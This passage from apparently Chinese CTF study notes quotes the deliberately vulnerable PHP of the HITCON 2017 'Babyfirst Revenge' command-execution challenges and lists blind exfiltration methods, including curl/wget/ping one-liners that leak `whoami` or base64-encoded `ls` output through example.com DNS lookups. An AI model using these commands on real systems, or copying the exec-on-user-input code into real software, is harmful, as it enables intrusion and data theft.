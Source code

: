 ```php
<?php
$sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
@mkdir($sandbox);
@chdir($sandbox);
if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5) {
    @exec($_GET['cmd']);
} else if (isset($_GET['reset'])) {
    @exec('/bin/rm -rf ' . $sandbox);
}
highlight_file(__FILE__);
```

#### 命令执行 4 位（HITCON 2017 Quals Babyfirst Revenge v2）

```php
<?php
$sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
@mkdir($sandbox);
@chdir($sandbox);
if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 4) {
    @exec($_GET['cmd']);
} else if (isset($_GET['reset'])) {
    @exec('/bin/rm -rf ' . $sandbox);
}
highlight_file(__FILE__);
```

### 无回显

- 反弹 shell

<https://your-shell.com/>

- 结果写入文件，二次返回

主要利用是输出重定向符号`>`将标准输出重定向到`可写`、`可访问`的目录下。

```bash
# 将输出结果保存到当前目录下的1.txt文件
ls -al>1.txt
```

- DNS 信道

利用 DNS 解析特殊构造的域名，通过查看 DNS 解析记录获得结果。平台有 [dnslog.cn](http://dnslog.cn/)、[https://requestrepo.com/](https://requestrepo.com/)

```bash
ping `whoami`.example.com
curl `whoami`.example.com
wget -O- `ls|base64`.example.com
```

- HTTP 信道

利用 HTTP 协议，GET 或 POST 请求，获取结果。通常，如果数据量大，通过 POST 方法。
